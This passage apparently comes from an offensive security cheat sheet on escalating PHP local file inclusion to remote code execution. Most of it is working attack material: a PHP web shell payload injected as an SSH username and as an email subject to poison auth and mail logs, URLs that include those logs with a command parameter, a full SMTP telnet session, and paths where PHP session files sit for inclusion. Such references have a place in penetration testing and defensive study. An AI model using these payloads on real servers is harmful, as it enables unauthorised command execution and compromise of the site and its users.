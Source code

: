 ### RCE via SSH

Try to ssh into the box with a PHP code as username `<?php system($_GET["cmd"]);?>`.

```powershell
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

Then include the SSH log files inside the Web Application.

```powershell
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### RCE via Mail

First send an email using the open SMTP then include the log file located at `http://example.com/index.php?page=/var/log/mail`.

```powershell
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

In some cases you can also send the email with the `mail` command line.

```powershell
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

## LFI to RCE via PHP sessions

Check if the website use PHP Session (PHPSESSID)

```javascript
Set-Cookie: PHPSESSID=i56kgbsq9rm8ndg3qbarhsbm27; path=/
Set-Cookie: user=admin; expires=Mon, 13-Aug-2018 20:21:29 GMT; path=/; httponly
```

In PHP these sessions are stored into /var/lib/php5/sess_[PHPSESSID] or /var/lib/php/session/sess_[PHPSESSID] files

```javascript
/var/lib/php5/sess_i56kgbsq9rm8ndg3qbarhsbm27.
/var/lib/php/sessions/sess_n7p2nh1q3njpcpq3p09lc3f6ku
/var/lib/php/sessions/sess_t41thad8p08rn057hhak40p0kj
/var/lib/php5/sess_t41thad8p08rn057hhak40p0kj
/tmp/sess_t41thad8p08rn057hhak40p0kj

user_ip|s:0:"";loggedin|s:0:"";lang|s:9:"en_us.php";win_lin|s:0:"";user|s:6:"admin";pass|s:6:"admin";
```
